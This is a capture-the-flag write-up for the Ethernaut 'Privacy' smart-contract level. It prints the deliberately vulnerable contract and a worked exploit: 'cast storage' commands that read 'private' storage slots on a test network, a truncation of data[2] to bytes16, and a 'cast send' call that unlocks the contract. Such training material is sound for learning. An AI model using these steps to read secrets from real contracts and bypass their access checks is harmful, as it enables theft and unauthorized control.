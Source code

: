 ```yaml
---
title: "Privacy"
tags: ["Storage", "Type Casting"]
reference: https://ethernaut.openzeppelin.com/level/12
---
```


# Description

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

# Solution

1. like the level 8, we can see all the state variables

2. find the value of `data` variable

> Structs and array data always start a new slot and their items are packed tightly according to these rules.

```sol
bool public locked = true; // slot 0
uint256 public ID = block.timestamp; // slot 1  
uint8 private flattening = 10; // slot 2
uint8 private denomination = 255; // slot 2
uint16 private awkwardness = uint16(block.timestamp); // slot 2
bytes32[3] private data; // slot 3 to 5
```

```bash
tim@tim-virtual-machine ~> cast storage 0xCfb1465085d3631Db97d5654D69621DC2E6169cc 2 --rpc-url $BASE_SEPOLIA_RPC
0x000000000000000000000000000000000000000000000000000000007edcff0a // flattening=0a, denomination=ff, awkwardness=7edc
tim@tim-virtual-machine ~> cast storage 0xCfb1465085d3631Db97d5654D69621DC2E6169cc 3 --rpc-url $BASE_SEPOLIA_RPC
0xe4f8e8b9f036b09b818a9685b05a36941e0e6ad00745931fccedf689ca14f3b8  // data[0]
tim@tim-virtual-machine ~> cast storage 0xCfb1465085d3631Db97d5654D69621DC2E6169cc 4 --rpc-url $BASE_SEPOLIA_RPC
0x6e160a1da387a6e207e8586df9343d3ed511b391ce5cd653708b196d1ab42e84  // data[1]
tim@tim-virtual-machine ~> cast storage 0xCfb1465085d3631Db97d5654D69621DC2E6169cc 5 --rpc-url $BASE_SEPOLIA_RPC
0xfeeba9c99ae96259ae2d28d8d50698e7a00112881d6a7fd2168743f73d328ddb // data[2]
tim@tim-virtual-machine ~> cast storage 0xCfb1465085d3631Db97d5654D69621DC2E6169cc 6 --rpc-url $BASE_SEPOLIA_RPC
0x0000000000000000000000000000000000000000000000000000000000000000 // all 0 which is expected
```

3. cast data[2] to bytes16 data type

> if length of m is greater than 16, truncation will happen. ref: https://docs.soliditylang.org/en/latest/types.html#reference-types


```
tim@tim-virtual-machine ~ [2]> echo "0xfeeba9c99ae96259ae2d28d8d50698e7a00112881d6a7fd2168743f73d328ddb" | cut -c1-34
0xfeeba9c99ae96259ae2d28d8d50698e7
```

4. unlock

```
cast send 0xCfb1465085d3631Db97d5654D69621DC2E6169cc "unlock(bytes16)" 0xfeeba9c99ae96259ae2d28d8d50698e7 --rpc-url $BASE_SEPOLIA_RPC --private-key
```
